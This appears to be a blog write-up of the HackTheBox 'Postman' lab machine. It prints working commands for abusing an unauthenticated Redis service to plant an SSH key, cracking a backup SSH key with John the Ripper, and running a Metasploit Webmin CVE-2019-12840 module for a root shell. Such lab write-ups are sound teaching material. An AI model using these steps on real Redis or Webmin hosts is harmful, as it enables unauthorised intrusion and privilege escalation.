 ```yaml
---
title: Write-up Postman Machine
author: pcw3r
date: 2020-02-02 11:33:00 +0800
categories: [HackTheBox, Pentest]
tags: [LINUX, EASY, ENUMERATION, DATABASE EXPLOITATION, WEB EXPLOITATION, PASSWORD CRACKING, CVE]
math: true
---
```


**<center>Ref°: HTB-01-Pentest</center>**

![Desktop View]({{ "/assets/img/postman/HTB-Badge-Postman.png" | relative_url }})

--- Postman is a Linux machine that highlights the exploitation of the RCE on the Redis service to gain access and allow to enumerate to escalate our privileges through a found and cracked backup ssh key. That to get Flag user.

A CVE is present in Webmin service to get root privilege and our user have sufficiently right to exploit it through Metasploit module. That to get Flag root.

![Desktop View]({{ "/assets/img/postman/HTB-Information-Postman.png" | relative_url }})

## **<span style='color:#c0392b'>Discovery - Figure out environment</span>**
### Check all services
***

We find interesting services: `ssh`, `web`, `redis` and `webmin`.

```terminal
$ nmap -A -T5 10.10.10.160 -p-
```

### Redis
***

Access to the service Redis is not protected by password.

### Web
***

Webmin run on the web service in version `1.910`.

### Vulnerabilities
***

Redis is not protected by password and we can access with telnet command. We can write and push our SSH Public Key file in authorized_keys. After we are the possibility to logging on to the victim machine through SSH.

The service Webmin present two CVE : 2006-3392 and 2019-12840. The second is more interesting because we can execute arbitrary commands with root privileges via the data parameter to update.cgi. But we need to have a user authorized to the "Package Updates" module.

Reference - exploit CVE : <https://www.cvedetails.com/cve/CVE-2019-12840/>

Metasploit module exists.


## **<span style='color:#c0392b'>Foothold - Get into the target </span>**
### SSH Authorized Keys from RCE Execution
***
Reference - exploit RCE : <https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html>

```terminal
$ sh-keygen -t rsa -b 2048
$ (echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > foo.txt
$ cat /root/.ssh/foo.txt | redis-cli -h 10.10.10.160 -x set s-key

$ telnet 10.10.10.160 6379
> config get dir
> config set dir /var/lib/redis/.ssh
> config set dbfilename authorized_keys
> save
> quit

$ ssh redis@10.10.10.160 -i postman
```

![Desktop View]({{ "/assets/img/postman/HTB-Images-redisrce.png" | relative_url }})

The exploitation is successful and we have gained a foothold.

## **<span style='color:#c0392b'>Lateral Movement - Move through environment</span>**
### Cracking Password
***
With `locate command` we found a backup of ssh key and its owner is Matt.

```terminal
$ locate id_rsa
$ ls -la /opt/
```

![Desktop View]({{ "/assets/img/postman/HTB-Images-sshkey.png" | relative_url }})

We retrieve the private key to exploit it with JohnTheRipper on our attacking machine.

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>

```terminal
$ ./ssh2john.py ~/.ssh/Matt > Matt.hash
$ /usr/sbin/john --wordlist=/root/Documents/wordlist/rockyou.txt Matt.hash
```

We crack the password of the user Matt : `computer2008`.

We cannot access in ssh with this user due to a restriction in the ssh configuration file.
But we have the possibility to escalate with the `su command` from our victim machine.

## **<span style='color:#c0392b'>Privilege Escalation - Gain higher-level permissions</span>**
### CVE 2019-12840 Exploitation
***
Matt user have access on Webmin and he have sufficiently right on `Package Updates` module to execute CVE 2019-12840 and obtain root privilege.

![Desktop View]({{ "/assets/img/postman/HTB-Images-SoftwarePackage.png" | relative_url }})

```terminal
$ msfconsole
msf5 > search webmin
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 > show options
msf5 > set username Matt
msf5 > set password computer2008
msf5 > set lhost 10.10.15.122
msf5 > set rhost 10.10.10.160
msf5 > set ssl true
msf5 > check
msf5 > exploit

$ whoami
root

$ cat /root/root.txt
```

We have compromise Postman machine.


***

## **<center>Trophy</center>**

> **A hacker does for love what others would not do for money.**
>
> Laura Creighton
